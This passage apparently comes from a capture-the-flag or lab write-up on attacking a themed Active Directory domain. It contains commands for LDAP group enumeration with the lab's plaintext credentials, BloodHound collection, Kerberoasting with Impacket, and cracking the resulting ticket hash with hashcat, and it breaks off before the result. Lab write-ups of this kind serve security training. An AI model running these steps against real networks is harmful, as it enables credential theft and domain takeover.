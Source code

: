 ### Groups

```bash
ldapsearch -x -H ldap://10.0.16.170 -D "r.widdleton@BUILDINGMAGIC.LOCAL" -w 'lilronron' -b "DC=BUILDINGMAGIC,DC=LOCAL" "(objectClass=group)" sAMAccountName

```

LDAP enumeration revealed 48 groups in the domain. Notable security-relevant groups include:
- Domain Admins / Enterprise Admins / Schema Admins → full domain control. 
- Backup Operators → can be abused for SYSTEM or DA escalation. 
- Server Operators / Account Operators → delegated rights over accounts and servers. 
- Group Policy Creator Owners → can push malicious GPOs. - DnsAdmins → DLL injection into the DNS service. 
- Key Admins / Enterprise Key Admins → privileged in environments with AD CS. 
- Protected Users → high-value accounts protected against common Kerberos attacks. 
- Other groups observed were standard built-ins (Users, Guests, Replicator, etc.) with no immediate attack value.

### 3. BloodHound Collection
Running BloodHound Python collector to enumerate domain relationships:
```bash
bloodhound-ce-python -u r.widdleton -p 'lilronron' -d BUILDINGMAGIC.LOCAL -dc blodc01.buildingmagic.local-c All
```

--- 

## Privilege Escalation – Kerberoasting

BloodHound identified the user `r.haggard` as having a Service Principal Name (SPN) set, making it Kerberoastable.

### Extracting the Service Ticket
I used Impacket’s `GetUserSPNs.py` with the credentials for `r.widdleton` to request the service ticket:

```bash
GetUserSPNs.py BUILDINGMAGIC.LOCAL/r.widdleton:lilronron -dc-ip 10.0.16.170 -request
```

```bash 
$krb5tgs$23$*r.haggard$BUILDINGMAGIC.LOCAL$HOGWARTS-DC/r.hagrid.WIZARDING.THM~60111*$1be5a25926c1976f2612b81a8d72ac41$6a70f1147a2996d2e1f <---snip--->
```
### Cracking the Ticket

The TGS ticket was then cracked with hashcat:

```bash 
hashcat -m 13100 -a 0 r.haggard.hash /usr/share/wordlists/rockyou.txt
```

Result: 
